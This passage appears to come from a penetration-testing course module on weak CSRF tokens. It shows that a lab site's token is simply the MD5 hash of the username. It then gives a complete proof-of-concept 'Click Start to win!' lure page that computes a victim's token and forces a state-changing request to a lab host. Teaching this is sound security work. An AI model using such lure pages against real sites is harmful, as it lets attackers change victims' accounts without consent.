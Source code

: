 You should see a request similar to the one below. Note the value of the CSRF token.

![image](https://academy.hackthebox.com/storage/modules/153/49.png)

Execute the below command to calculate the MD5 hash of the string "goldenpeacock467" (the username).

&#x20; Exploiting Weak CSRF Tokens

```shell-session
root@htb[/htb]$ echo -n goldenpeacock467 | md5sum
0bef12f8998057a7656043b6d30c90a2  -
```

You will notice that the resulting hash is the same as the CSRF value! This means that the CSRF token is generated by MD5-hashing the username.

When assessing how robust a CSRF token generation mechanism is, make sure you spend a small amount of time trying to come up with the CSRF token generation mechanism. It can be as easy as `md5(username)`, `sha1(username)`, `md5(current date + username)` etc. Please note that you should not spend much time on this, but it is worth a shot.

Now that we know how the CSRF token for this action is generated let us see how we can attack other users through CSRF.

Find below the malicious page. Save it as `press_start_2_win.html`

Code: html

```html
<!DOCTYPE html>
<html lang="en">

<head>
    <meta charset="UTF-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <meta name="referrer" content="never">
    <title>Proof-of-concept</title>
    <link rel="stylesheet" href="styles.css">
    <script src="./md5.min.js"></script>
</head>

<body>
    <h1> Click Start to win!</h1>
    <button class="button" onclick="trigger()">Start!</button>

    <script>
        let host = 'http://csrf.htb.net'

        function trigger(){
            // Creating/Refreshing the token in server side.
            window.open(`${host}/app/change-visibility`)
            window.setTimeout(startPoc, 2000)
        }

        function startPoc() {
            // Setting the username
            let hash = md5("crazygorilla983")

            window.location = `${host}/app/change-visibility/confirm?csrf=${hash}&action=change`
        }
    </script>
</body>
</html>
```
